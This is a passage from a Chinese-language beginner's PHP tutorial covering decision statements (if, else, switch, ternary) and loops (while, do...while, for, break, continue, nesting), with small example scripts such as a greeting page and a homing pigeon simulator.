首先，脚本将要测试的圆的半径存储在 `$radius` 变量中。然后它计算直径（即半径的两倍），并将其存储在 `$diameter` 变量中。接下来，它计算圆的周长，即 π（pi）乘以直径，并将结果存储在 `$circumference` 变量中。它使用内置的 PHP 常量 M_PI，该常量存储 π 的值。然后脚本计算圆的面积，即 π 乘以半径的平方，并将其存储在 `$area` 变量中。要获取半径的平方值，脚本使用内置的 `pow()` 函数，该函数接受一个基数 `base`，后跟一个指数 `exp`，并返回 `base` 的 `exp` 次幂。

最后，脚本输出其计算结果，使用字符串连接运算符（`.`）将字符串连接在一起。

## 摘要

本章带您了解了 PHP 语言的一些基本构建块。您学习了以下概念：

- 变量：它们是什么，如何创建它们，以及如何命名它们
- 数据类型的概念，包括 PHP 中可用的类型
- PHP 中的弱类型；一种为变量和值提供大量灵活性的特性
- 如何使用 `gettype()` 测试变量的类型，以及如何使用 `settype()` 和强制转换更改类型
- 运算符、操作数和表达式的概念
- PHP 中最常用的运算符
- 运算符优先级——并非所有运算符都平等
- 如何创建包含不变值的常量

掌握这些知识后，您就可以继续探索 PHP 的下一个重要概念：决策、循环和控制流了。您将在下一章中了解这些内容。不过，在阅读之前，请先尝试接下来的两个练习，以确保您理解变量和运算符。这些练习的解答在附录 A 中。

## 练习

- 1. 编写一个脚本，创建一个变量并为其赋予一个整数值，然后三次将 1 加到变量的值上，每次使用不同的运算符。向用户显示最终结果。

- 2. 编写一个脚本，创建两个变量，并为每个变量赋予不同的整数值。现在让您的脚本测试第一个值是否
  - a. 等于第二个值
  - b. 大于第二个值
  - c. 小于或等于第二个值
  - d. 不等于第二个值
  并向用户输出每个测试的结果。

## 决策和循环

迄今为止，您已经了解 PHP 可以让您创建动态网页，并且已经探索了变量、数据类型、运算符、表达式和常量等一些基本语言概念。

但是，您编写的所有脚本都以线性方式运行：PHP 引擎从脚本的第一行开始，一直向下执行直到到达末尾。当您开始引入决策和循环时，事情会变得有趣得多。

一个 *决策* 允许您根据特定测试的结果运行其中一段代码。同时，一个 *循环* 允许您反复运行同一段代码，直到满足特定条件。

通过使用决策和循环，您为脚本增添了大量功能，并可以使其真正动态化。现在您可以根据访问者的所在地、他们在表单中点击了哪些按钮，或者他们是否已登录您的网站，向他们显示不同的页面内容。

在本章中，您将探索在 PHP 中编写决策和循环代码的各种方式。您将了解：

- 使用 `if`、`else` 和 `switch` 语句进行决策
- 使用三元运算符编写紧凑的决策代码
- 使用 `do`、`while` 和 `for` 语句进行循环
- 使用 `break` 和 `continue` 语句修改循环
- 将循环嵌套在彼此中
- 使用决策和循环显示 HTML

学习完本章的概念后，您将踏上构建有用、可适应的 PHP 脚本之路。

## 做出决策

像大多数编程语言一样，PHP 允许您编写基于表达式结果做出决策的代码。这使您可以执行诸如测试变量是否匹配特定值，或者文本字符串是否具有特定长度等操作。本质上，如果您可以创建一个形式为表达式的测试，该表达式的求值结果为 `true` 或 `false`，则可以使用该测试在代码中做出决策。

您在第 3 章中学习了表达式，但您可能希望快速回顾该章中的“运算符和表达式”部分，以了解可以创建哪些类型的表达式。您可以看到，由于 PHP 提供了多种运算符，您可以构建相当复杂的表达式。这意味着您可以将几乎任何测试用作代码中决策的基础。

PHP 为您提供了一些可用于做出决策的语句：

- `if` 语句
- `else` 和 `elseif` 语句
- `switch` 语句

您将在接下来的章节中探索每个这些语句。

### 使用 if 语句进行简单决策

最容易理解的决策语句是 `if` 语句。`if` 构造的基本形式如下：

```
if ( expression ) {
// Run this code
}
// More code here
```

如果括号内的表达式求值为 `true`，则会运行花括号之间的代码。如果表达式求值为 `false`，则会跳过花括号之间的代码。就是这样。

值得指出的是，无论测试结果如何，右花括号之后的任何代码都始终会执行。因此，在前面的示例中，如果 `expression` 求值为 `true`，则会执行“运行此代码”和“此处的更多代码”这两行；如果 `expression` 求值为 `false`，则会跳过“运行此代码”，但仍会执行“此处的更多代码”。

这是一个简单的现实世界示例：

```
$widgets = 23;
if ( $widgets == 23 ) {
    echo "We have exactly 23 widgets in stock!";
}
```

脚本的第一行创建一个名为 `$widgets` 的变量，并将其值设置为 23。然后，`if` 语句使用 `==` 运算符检查存储在 `$widgets` 中的值是否确实等于 23。如果是（当然应该是！），则表达式求值为 `true`，脚本显示消息：“库中正好有 23 个小部件！”如果 `$widgets` 不持有值 23，则括号内的代码——即 `echo()` 语句——将被跳过。（您可以通过更改第一行代码中的值并重新运行示例来亲自测试。）

这是另一个示例，它使用 `>=`（大于或等于）和 `<=`（小于或等于）比较运算符，以及 `&&`（与）逻辑运算符：

```
$widgets = 23;

if ( $widgets >= 10 && $widgets <= 20 ) {
    echo "We have between 10 and 20 widgets in stock.";
}
```

此示例与前一个示例类似，但括号内的测试表达式稍微复杂一些。如果存储在 `$widgets` 中的值大于或等于 10，且同时小于或等于 20，则表达式求值为 `true`，并显示消息“库中有 10 到 20 个小部件。”如果比较操作中的任何一个求值为 `false`，则整个表达式也求值为 `false`，将跳过 `echo()` 语句，且不显示任何内容。

关键点是，无论您的测试表达式多么复杂，如果整个表达式求值为 `true`，则会运行花括号内的代码；否则，将跳过花括号内的代码，并且执行继续在右花括号之后的第一行代码。

您可以在花括号之间放置任意数量的代码行，代码可以执行任何操作，例如在浏览器中显示内容、调用函数，甚至退出脚本。事实上，下面是将前一个示例重写为在一个 `if` 语句中使用另一个 `if` 语句：

```
$widgets = 23;
if ( $widgets > 10 ) {
    if ( $widgets <= 20 ) {
        echo "We have between 10 and 20 widgets in stock.";
    }
}
```

第一个 `if` 语句花括号之间的代码块本身就是另一个 `if` 语句。如果 `$widgets >= 10`，则第一个 `if` 语句运行其代码块；而如果 `$widgets <= 20`，则内部 `if` 语句运行其代码块——即 `echo()` 语句。因为两个 `if` 表达式都需要求值为 `true` 才能运行 `echo()` 语句，所以最终结果与前一个示例相同。

如果花括号之间只有一行代码，实际上可以完全省略花括号：

```
$widgets = 23;
if ( $widgets == 23 )
    echo "We have exactly 23 widgets in stock!";
```

但是，如果这样做，请在稍后向代码块添加更多代码行时记住添加花括号。否则，您的代码将无法按预期运行！


## 使用 else 语句提供备选选择

正如你所见，if 语句允许你在表达式求值为 true 时运行一段代码。如果表达式求值为 false，则跳过该代码。

你可以通过在 if 结构中添加 else 语句来增强这种决策过程。这样，如果表达式为 true，就运行一段代码；如果表达式为 false，就运行另一段代码。例如：

```php
if ( $widgets >= 10 ) {
echo "We have plenty of widgets in stock.";
} else {
echo "Less than 10 widgets left. Time to order some more!";
}
```

如果 $widgets 大于或等于 10，将运行第一个代码块，并显示消息“库存中有足够的小部件。”。但是，如果 $widgets 小于 10，将运行第二个代码块，访问者将看到消息：“剩余少于 10 个小部件。是时候订购更多了！”。

你甚至可以将 else 语句与另一个 if 语句结合使用，以便做出尽可能多的备选选择：

```php
if ( $widgets >= 10 ) {
echo "We have plenty of widgets in stock.";
} else if ( $widgets >= 5 ) {
echo "Less than 10 widgets left. Time to order some more!";
} else {
echo "Panic stations: Less than 5 widgets left! Order more now!";
}
```

如果库存中有 10 个或更多小部件，将运行第一个代码块，显示消息：“库存中有足够的小部件。”。但是，如果 $widgets 小于 10，控制权将传递给第一个 else 语句，进而运行第二个 if 语句：if ( $widgets >= 5 )。如果此为 true，将显示第二条消息——“剩余少于 10 个小部件。是时候订购更多了！”。但是，如果第二个 if 表达式的结果为 false，执行将传递给最后一个 else 代码块，并显示消息“惊慌失措：剩余少于 5 个小部件！立即订购更多！”。

PHP 甚至为你提供了一个特殊语句——elseif——可用于合并 else 和 if 语句。因此，前面的示例可以重写如下：

```php
if ( $widgets >= 10 ) {
echo "We have plenty of widgets in stock.";
} elseif ( $widgets >= 5 ) {
echo "Less than 10 widgets left. Time to order some more!";
} else {
echo "Panic stations: Less than 5 widgets left! Order more now!";
}
```

## 使用 switch 语句多次测试同一个表达式

有时，你希望针对一系列不同的值测试一个表达式，并根据匹配的值执行不同的任务。以下是使用 `if`、`elseif` 和 `else` 语句的示例：

```php
if ( $userAction == "open" ) {
// Open the file
} elseif ( $userAction == "save" ) {
// Save the file
} elseif ( $userAction == "close" ) {
// Close the file
} elseif ( $userAction == "logout" ) {
// Log the user out
} else {
print "Please choose an option";
}
```

可以看到，该脚本反复将同一个变量与不同的值进行比较。这可能会变得相当麻烦，特别是如果你以后想要更改所有测试中使用的表达式。

PHP 提供了一种更优雅的方式来运行此类测试：`switch` 语句。使用此语句，你只需包含一次要测试的表达式，然后提供一系列要与其比较的值，以及在值匹配时运行的相应代码块。以下是使用 `switch` 重写的前面示例：

```php
switch ( $userAction ) {
case "open":
// Open the file
break;
case "save":
// Save the file
break;
case "close":
// Close the file
break;
case "logout":
// Log the user out
break;
default:
print "Please choose an option";
}
```

可以看到，尽管第二个示例的代码行数更多，但这种方法更简洁，也更易于维护。

其工作原理如下。第一行包含 `switch` 语句，并在括号中包含要测试的条件——在此例中，即 `$userAction` 变量的值。然后，一系列 `case` 语句将表达式与各种值进行测试："open"、"save" 等等。如果某个值与表达式匹配，则执行 `case` 行后面的代码。如果没有值匹配，则会到达 `default` 语句，并执行其后面的代码行。

请注意，每个 case 结构末尾都有一个 break 语句。为什么需要这些 break 语句呢？因为，当 PHP 引擎找到与表达式匹配的 case 值时，它不仅会执行该 case 语句的代码块，还会继续执行后续的每个 case 语句以及最终的 default 语句，依次执行它们的所有代码块。不仅如此，无论表达式是否匹配这些 case 语句中的值，它都会这样做！大多数情况下，你不希望这样发生，因此需要在每个代码块末尾插入一个 break 语句。break 会退出整个 switch 结构，确保 switch 结构内不再运行其他代码块。

例如，如果在这个示例脚本中未包含 break 语句，且 $userAction 等于 "open"，则脚本将同时打开文件、保存文件、关闭文件、登出用户，最后显示 "Please choose an option"！

但是，switch 语句的这一特性有时也很有用，特别是当你希望在表达式匹配多个不同值中的某一个时执行操作。例如，以下脚本仅在用户关闭文件或登出时才提示用户确认操作：

```php
switch ( $userAction ) {
case "open":
    // Open the file
    break;
case "save":
    // Save the file
    break;
case "close":
case "logout":
    print "Are you sure?";
    break;
default:
    print "Please choose an option";
}
```

如果 $userAction 等于 "open" 或 "save"，脚本的行为与前一个示例相同。但是，如果 $userAction 等于 "close"，则会执行（空的）"close" 代码块和随后的 "logout" 代码块，从而显示 "你确定吗？" 消息。当然，如果 $userAction 等于 "logout"，也会执行 "你确定吗？" 代码。在显示 "你确定吗？" 之后，脚本使用 break 语句来确保不会运行 default 代码块。

## 使用三元运算符进行紧凑编码

尽管你在上一章中了解了最常用的 PHP 运算符，但还有另一个值得了解的运算符，即三元运算符。三元运算符的符号是 ?。

与其他 PHP 运算符不同（其他运算符可能作用于单个表达式，例如 !$x，或两个表达式，例如 $x == $y），三元运算符使用三个表达式：

```
( expression1 ) ? expression2 : expression3;
```

三元运算符可以看作是 if...else 结构的紧凑版本。前面的代码可以这样理解：如果 expression1 求值为 true，则整个表达式等于 expression2；否则，整个表达式等于 expression3。

以下是一个“现实世界”的示例，以使此概念更加清晰：

```php
$widgets = 23;
$plenty = "We have plenty of widgets in stock.";
$few = "Less than 10 widgets left. Time to order some more!";
echo ( $widgets >= 10 ) ? $plenty : $few;
```

此代码在功能上与此章前面 else 语句部分中的示例等效。其工作原理如下。

创建了三个变量：值为 23 的 $widgets 变量，以及用于存储要显示给用户的文本字符串的两个变量 $plenty 和 $few。最后，使用三元运算符来显示适当的消息。将测试表达式 $widgets >= 10；如果为 true（本例中即为 true），则整个表达式求值为 $plenty 的值。如果测试表达式恰好为 false，则整个表达式将改为采用 $few 的值。最后，使用 echo() 将整个表达式（即三元运算符的结果）显示给用户。

使用三元运算符的代码可能难以阅读，尤其是如果你不习惯看到该运算符。但是，如果你只需要做出简单的 if...else 类型决策，这是编写紧凑代码的好方法。

## 尝试使用决策来显示问候语

以下是一个简单示例，演示了 if、elseif 和 else 语句，以及 ?（三元）运算符。将脚本保存为文档根目录中的 greeting.php。

此脚本（以及本书中大多数其他脚本）链接到第 2 节中列出的 common.css 样式表文件，因此请确保文档根目录中也有 common.css。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Greetings</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<?php
$hour = date( "G" );
$year = date( "Y" );
if ( $hour >= 5 && $hour < 12 ) {
echo "<h1>Good morning!</h1>";
} elseif ( $hour >= 12 && $hour < 18 ) {
echo "<h1>Good afternoon!</h1>";
} elseif ( $hour >= 18 && $hour < 22 ) {
```


```
echo "<h1>Good evening!</h1>";
} else {
echo "<h1>Good night!</h1>";
}

$leapYear = false;

if ( ( ( $year % 4 == 0 ) && ( $year % 100 != 0 ) ) || ( $year % 400 == 0 ) )
$leapYear = true;

echo "<p>Did you know that $year is" . ( $leapYear ? "" : " not" ) . " a leap
year?</p>";
?>
</body>
</html>
```

该脚本根据当前一天中的时间显示问候语，并告知您当前年份是否为闰年。要运行它，只需在Web浏览器中访问脚本的URL即可。您可以在图4-1中查看示例输出。



图 4-1

## 工作原理

显示XHTML页面页眉后，脚本设置两个变量：$hour（存储当前小时）和 $year（存储当前年份）。它使用PHP的date()函数获取这两个值；将字符串"G"传递给date()会以24小时制返回小时，而传递"Y"则返回年份。

> 您可以在第16章中了解date()函数的更多工作原理。

接下来，脚本使用if...elseif...else结构显示适当的问候语。如果当前小时在5到12之间，脚本显示“Good morning！”；如果在12到18之间，它显示“Good afternoon！”，依此类推。

最后，脚本计算当前年份是否为闰年。它创建一个新的$leapYear变量，默认设置为false，然后如果当前年份能被4整除但不能被100整除，或者能被400整除，则将$leapYear设置为true。随后脚本输出一条消息，使用三元运算符(?)在$leapYear为false时将单词"not"插入消息中。

## 使用循环执行重复任务

您可以看到，决策能力——根据特定标准运行不同的代码块——可以为您的PHP脚本增加很多功能。循环可以使您的脚本更加强大和有用。

循环的基本思想是反复运行同一块代码，直到满足某个条件。与决策一样，该条件必须采用表达式的形式。如果表达式的值为`true`，则循环继续运行。如果表达式的值为`false`，则循环退出，执行继续在循环代码块后的第一行。

本章将介绍三种主要的循环类型：

- while 循环
- do...while 循环
- for 循环

您将在第6章中探索专门用于数组的`foreach()`循环。

### 使用while语句进行简单循环

最容易理解的循环类型使用`while`语句。`while`结构与`if`结构非常相似：

```
while ( expression ) {
  // Run this code
}

// More code here
```

其工作原理如下。括号内的表达式会被测试；如果其值为`true`，则执行花括号内的代码块。然后再次测试表达式；如果它仍为`true`，则再次运行代码块，依此类推。但是，如果在任何一点表达式为`false`，则循环退出，执行继续在右花括号后的那一行。

下面是一个`while`循环的简单实用示例：

```
<?php

$widgetsLeft = 10;

while ( $widgetsLeft > 0 ) {
  echo "Selling a widget...";
  $widgetsLeft--;
  echo "done. There are $widgetsLeft widgets left.<br />";
}

echo "We're right out of widgets!";

?>
```

首先，创建一个变量`$widgetsLeft`来记录库存中的小部件数量（10）。然后，`while`循环处理这些小部件，一次“出售”一个（通过递减`$widgetsLeft`计数器来表示）并显示剩余的小部件数量。一旦`$widgetsLeft`达到0，括号内的表达式（`$widgetsLeft > 0`）变为`false`，循环退出。然后控制权传递给循环外部的`echo()`语句，并显示消息“We’re right out of widgets!”。

要查看此示例的实际效果，请将代码保存为`widgets.php`并放在文档根文件夹中，然后在浏览器中运行该脚本。您可以在图4-2中看到结果。



图 4-2

### 在末尾测试：do...while 循环

再看一下上一个示例中的`while`循环。您会注意到，表达式是在循环开始时进行测试的，在花括号内的任何代码有机会运行之前。这意味着，如果在首次运行`while`语句之前`$widgetsLeft`已被设置为0，那么表达式将评估为`false`，执行将跳过到右花括号后的第一行。循环内部的代码将永远不会被执行。

当然，在这种情况下，这正是您想要发生的情况；当没有小部件可出售时，您无法向某人出售小部件！！但是，有时在检查表达式之前至少运行一次循环中的代码很有用，而这正是`do...while`循环允许您做的。例如，如果您正在测试的表达式依赖于在循环内部设置变量，则需要在测试表达式之前至少运行一次该循环。

下面是一个`do...while`循环示例：

```
<?php

$width = 1;
$length = 1;

do {
	$width++;
	$length++;
	$area = $width * $length;
} while ( $area < 1000 );

echo "The smallest square over 1000 sq ft in area is $width ft x $length ft.";

?>
```

该脚本计算面积超过1000平方英尺的最小正方形的宽度和高度（以整英尺为单位，正好是32英尺乘32英尺）。它初始化两个变量，$width和$height，然后创建一个do...while循环来递增这些变量并计算生成的正方形的面积，并将其存储在$area中。由于循环始终至少运行一次，您可以确信在循环末尾检查时，$area将有值。如果面积仍小于1000，则表达式的值为true，循环重复。

## 使用for语句进行更整洁的循环

for语句比do和do...while稍微复杂一些，但它是编写某些类型循环的一种整洁且紧凑的方法。通常，当您知道要重复循环多少次时，会使用for循环。您在for循环中使用一个计数器变量来跟踪循环了多少次。

for循环的一般语法如下：

```
for ( expression1; expression2; expression3 ) {
    // Run this code
}

// More code here
```

*与while和do...while循环一样，如果循环体中只需要一行代码，可以省略花括号。*

您可以看到，与do和do...while循环括号内只包含一个表达式不同，for循环可以包含三个表达式。这些表达式按顺序为：

- 初始化表达式 — 仅在首次遇到for语句时运行一次。通常，它用于初始化计数器变量（例如，$counter = 1）
- 循环测试表达式 — 这与do或do...while循环中单个表达式的目的相同。如果此表达式的值为true，则循环继续；如果为false，则循环退出。循环测试表达式的示例是$counter <= 10
- 计数表达式 — 此表达式在每次循环迭代后运行，通常用于更改计数器变量——例如，$counter++

下面是for循环的典型示例。该脚本从1计数到10，每次循环时都显示当前计数器值：

```
for ( $i = 1; $i <= 10; $i++ ) {
    echo "I've counted to: $i<br />";
}

echo "All done!";
```

循环设置一个新的计数器变量`$i`，并将其值设为1。循环内的代码显示当前计数器值。每次循环重复时，`$i`都会递增。循环测试表达式检查`$i`是否仍小于或等于10；如果是，则循环重复。一旦`$i`达到11，循环退出并显示“All done!”消息。

完全可以使用`while`语句来编写任何`for`循环。下面是使用`while`重写的前一个`for`循环：

```
$i = 1;
while ( $i <= 10 ) {
echo "I've counted to: $i<br />";
$i++;
}
echo "All done!";
```

但是，正如本例清楚地所示，`for`循环通常更加整洁紧凑。

`for`语句远不止表面上看起来那么简单。例如，您不必将其用于简单计数，循环测试表达式也不必涉及计数表达式中的同一个变量。下面是一个示例：

```
$startTime = microtime( true );
for ( $num = 1; microtime( true ) < $startTime + 0.0001; $num = $num * 2 ) {
echo "Current number: $num<br />";
}
echo "Out of time!";
```

您可能很好奇这个脚本到底做什么。嗯，它让PHP引擎与时钟赛跑！

首先，脚本将当前Unix时间戳（以微秒为单位）存储在变量`$startTime`中。为此，它使用带有参数`true`的PHP `microtime()`函数，该函数以浮点数形式返回当前时间戳（小数点前为秒数，小数点后为秒的分数）。

接下来，`for`循环开始运行。初始化表达式设置一个变量`$num`，值为1。循环测试表达式检查当前时间（同样使用`microtime()`获取）是否仍早于开始时间后的1/10000秒（100微秒）；如果是，循环继续。然后，计数表达式不是简单地递增计数器，而是将`$num`变量乘以2。最后，循环体仅显示`$num`的当前值。

总而言之，`for`循环将`$num`设置为1，然后不断将`$num`乘以2，每次都显示结果，直到经过100微秒。最后，脚本显示一条“Out of time!”消息。

要尝试此赛跑，请将代码保存为`race.php`并在Web浏览器中打开脚本的URL。该脚本能运行多远完全取决于Web服务器的速度！在我电脑上，它在时间耗尽前达到了8，如图 4-3所示。




图 4-3

值得指出的是，复杂的循环测试表达式会严重拖慢脚本运行速度，因为每次循环重复时都会对测试表达式求值。在刚刚所示的示例中，该表达式需要相当占用处理器资源，因为它必须获取当前时间——一个不断变化的值。但是，一般来说，在进入循环之前，最好尽可能预先计算测试表达式中的内容。例如：

```
$secondsInDay = 60 * 60 * 24;
for ( $seconds = 0; $seconds < $secondsInDay; $seconds++ ) {
    // Loop body here
}
```

通常会比下面的代码快一点：

```
for ( $seconds = 0; $seconds < 60 * 60 * 24; $seconds++ ) {
    // Loop body here
}
```

你实际上可以省略 `for` 语句中的任何表达式，只要保留分号即可。假设你已经在其他地方初始化了一个名为 `$i` 的变量。那么你可以从 `for` 循环中省略初始化部分，如下所示：

```
for ( ; $i <= 10; $i++ ) {
    // Loop body here
}
```

如果愿意，你甚至可以省略所有三个表达式，从而创建一个无限循环：

```
for ( ; ; );
```

当然，除非你以某种方式退出循环，否则这样的循环几乎毫无意义！幸运的是，你可以使用 `break` 语句（将在下一节讨论）来做到这一点。

## 使用 break 语句跳出循环

通常，while、do...while 或 for 循环会一直持续循环，只要其测试表达式的求值结果为 true。但是，你可以在循环执行过程中的任何一点使用 break 语句退出循环。这与它在 switch 构造（本章前面已描述）中的工作方式完全相同——它会退出循环并移动到循环外的第一行代码。

你为什么要这样做呢？嗯，在许多情况下，能够跳出循环是很有用的。前面讨论过的无限 for 循环就是一个很好的例子；如果你不以某种方式跳出无限循环，它就会不停地运行，消耗服务器资源。例如，虽然下面的 while 循环表面上是一个无限循环（因为其测试表达式始终为 true），但实际上它会数到 10 然后退出循环：

```
$count = 0;

while ( true ) {
  $count++;
  echo "I've counted to: $count<br />";
  if ( $count == 10 ) break;
}
```

跳出循环的另一个常见原因是，你想提前退出循环，因为你已经完成了所需的所有处理。请考虑下面这个相当简单的例子：

```
$randomNumber = rand( 1, 1000 );

for ( $i=1; $i <= 1000; $i++ ) {
  if ( $i == $randomNumber ) {
    echo "Hooray! I guessed the random number. It was: $i<br />";
    break;
  }
}
```

这段代码使用 PHP 的 rand() 函数生成并存储一个 1 到 1000 之间的随机整数，然后从 1 循环到 1000，尝试猜出先前存储的数字。一旦找到该数字，它就会显示成功消息，并使用 break 退出循环。请注意，你可以省略 break 语句，代码仍然可以工作；但是，因为一旦猜中数字就没有继续的意义了，所以使用 break 退出循环可以避免浪费处理器时间。

当处理数组和数据库记录等可能包含大量数据的集合时，这种 break 语句的用法非常常见，如本书后面所示。

## 使用 continue 语句跳过循环迭代

与 break 语句相比，continue 稍微不那么激进，它允许你提前结束循环的当前迭代并进入下一次迭代。如果你想跳过当前正在处理的数据项，这很有用；也许你不想更改或使用该特定数据项，或者该数据项出于某些原因无法使用（例如，使用它会导致错误）。

下面的示例从 1 数到 10，但跳过了数字 4（在许多亚洲文化中，4 被认为是不吉利的数字）：

```
for ( $i=1; $i <= 10; $i++ ) {
    if ( $i == 4 ) continue;
    echo "I've counted to: $i<br />";
}
echo "All done!";
```

虽然在需要时 break 和 continue 是很有用的“野兽”，但最好在不得已的情况下才使用它们。如果滥用，它们会使循环代码变得相当难以阅读。

## 创建嵌套循环

没有什么能阻止你在另一个循环内部创建一个循环。事实上，这可能是一个非常有用的技术。当你将一个循环嵌套在另一个循环内部时，内层循环首先会运行完所有迭代。然后外层循环进行迭代，导致内层循环再次运行完所有迭代，以此类推。

下面是嵌套循环的一个简单示例：

```
for ( $tens = 0; $tens < 10; $tens++ ) {
    for ( $units = 0; $units < 10; $units++ ) {
        echo $tens . $units . "<br />";
    }
}
```

该示例显示 0 到 99 的所有整数（0 到 9 的数字前面带有前导零）。为此，它设置了两个循环：一个外层“tens”循环和一个内层“units”循环。每个循环从 0 数到 9。对于“tens”循环的每次迭代，“units”循环都要迭代 10 次。每次“units”循环迭代时，通过将 $units 的值拼接到 $tens 的值上来显示当前数字。

请注意，外层循环迭代 10 次，而内层循环最终迭代 100 次：外层循环每迭代一次，内层循环迭代 10 次。

嵌套循环非常适合处理嵌套数组和对象等多维数据结构。你也不局限于两层嵌套；你可以创建循环中套循环中套循环，以此类推。

在嵌套循环中使用 break 语句时，可以传递一个可选的数字参数，指示要跳出多少层嵌套。例如：

```
// Break out of the inner loop when $units == 5
for ( $tens = 0; $tens < 10; $tens++ ) {
    for ( $units = 0; $units < 10; $units++ ) {
        if ( $units == 5 ) break 1;
        echo $tens . $units . "<br />";
    }
}
```

```
// Break out of the outer loop when $units == 5
for ( $tens = 0; $tens < 10; $tens++ ) {
    for ( $units = 0; $units < 10; $units++ ) {
        if ( $units == 5 ) break 2;
        echo $tens . $units . "<br />";
    }
}
```

顺便说一句，你也可以这样使用带数字参数的 break 来跳出嵌套的 switch 构造（或者，例如，嵌套在 while 或 for 循环中的 switch）。

## 尝试一下：信鸽模拟器

下面是一个示例脚本，汇总了你迄今在本章中学到的一些概念。该脚本以图形方式模拟信鸽从起点飞回家的路径。这里说的可不完全是三维动画图形，但大致意思是表达清楚了！

下面是脚本的完整代码：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Homing Pigeon Simulator</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
div.map { float: left; text-align: center; border: 1px solid #666;
background-color: #fcfcfc; margin: 5px; padding: 1em; }
span.home, span.pigeon { font-weight: bold; }
span.empty { color: #666; }
</style>
</head>
<body>
<?php
$mapSize = 10;
// Position the home and the pigeon
do {
$homeX = rand( 0, $mapSize-1 );
$homeY = rand( 0, $mapSize-1 );
$pigeonX = rand( 0, $mapSize-1 );
$pigeonY = rand( 0, $mapSize-1 );
} while ( ( abs( $homeX - $pigeonX ) < $mapSize/2 ) && ( abs( $homeY - $pigeonY ) < $mapSize/2 ) );
do {
// Move the pigeon closer to home
if ( $pigeonX < $homeX )
$pigeonX++;
elseif ( $pigeonX > $homeX )
$pigeonX--;
if ( $pigeonY < $homeY )
$pigeonY++;
elseif ( $pigeonY > $homeY )
$pigeonY--;

// Display the current map

echo '<div class="map" style="width: ' . $mapSize . 'em;">';

for ( $y = 0; $y < $mapSize; $y++ ) {

    for ( $x = 0; $x < $mapSize; $x++ ) {

        if ( $x == $homeX && $y == $homeY ) {
            echo '<span class="home">+</span>'; // Home
        } elseif ( $x == $pigeonX && $y == $pigeonY ) {
            echo '<span class="pigeon">% </span>'; // Pigeon
        } else {
            echo '<span class="empty">.</span>'; // Empty square
        }

        echo ( $x != $mapSize - 1 ) ? " " : "";
    }
echo "\n";
}

echo "</pre></div>\n";
} while ( $pigeonX != $homeX || $pigeonY != $homeY );
?>

</body>
</html>
```

要试用该脚本，请将其保存为 homing_pigeon.php 并放在你的文档根目录中，然后在 Web 浏览器中打开脚本的 URL。你应该会看到类似图 4-4 的内容。每个地图表示信鸽（由 % 符号表示）向家（+ 符号）进展的过程。重新加载页面以运行新的模拟，家和信鸽的位置会有所不同。

> 如果你的页面看起来不同，请确保你的文档根目录包含第 2 章中描述的 common.css 文件。




图 4-4

## 工作原理

此脚本使用若干决策和循环来模拟信鸽飞向家园，并显示结果。

首先，脚本显示 XHTML 页面页头。接着，它设置一个变量 $mapSize，表示地图正方形的宽度和高度（你不妨尝试不同的值，看看它们如何影响模拟）：

```
$mapSize = 10;
```

接下来，你会遇到脚本中的第一个循环：一个 do...while 循环。这段代码使用 PHP 的 rand() 函数，在地图边界内随机定位家园点和信鸽。定位家园和信鸽后，do...while 循环的条件会检查，确保家园和信鸽之间至少相隔地图宽度（或高度）的一半；如果不满足条件，循环就会重复，生成新的随机位置。这样可以确保信鸽总有合理的飞行距离：

```
// Position the home and the pigeon

do {
    $homeX = rand ( 0, $mapSize-1 );
    $homeY = rand ( 0, $mapSize-1 );
    $pigeonX = rand ( 0, $mapSize-1 );
    $pigeonY = rand ( 0, $mapSize-1 );
} while ( ( abs( $homeX - $pigeonX ) < $mapSize/2 ) && ( abs( $homeY - $pigeonY ) < $mapSize/2 ) );
```

内置的 abs() 函数用于获取数字的绝对值。例如，abs( 3) 是 3，abs( -3) 也是 3。

